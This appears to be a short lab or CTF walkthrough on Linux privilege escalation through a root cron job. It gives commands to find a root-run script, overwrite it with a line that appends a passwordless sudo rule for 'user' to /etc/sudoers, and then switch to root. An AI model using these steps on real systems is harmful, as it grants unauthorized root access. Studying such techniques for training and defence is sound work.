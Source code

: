 - Linux implements task scheduling through a utility called Cron.
- The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.
- Cron jobs that have been configured to ***run as root user will provide us with root access***.

***

**Note: Not exactly a typical cron job attack. However, a slightly different**

There's a message file in a home directory that is owned by the root.
```
ls -l
```

Find if the file exists anywhere else on the system
```
find / -name message
```

A file with the same name is present in the `/tmp` directory, that run every minute.
```
ls -l /tmp/
```

This means there is some script/binary which is copying this file to /tmp directory. Locate the source destination of the script in every directory manually (i.e. /, /etc, /opt).
```
grep -nri '/tmp/message' /usr
```

Check the permission of the script, once found.
```
ls -l /usr/local/share/script.sh
```

If the script file is writeable by the normal user, edit the file. If no text editors are present
```
printf '#!/bin/bash\necho "user ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/script.sh
```

Switch to the root user
```
sudo su
```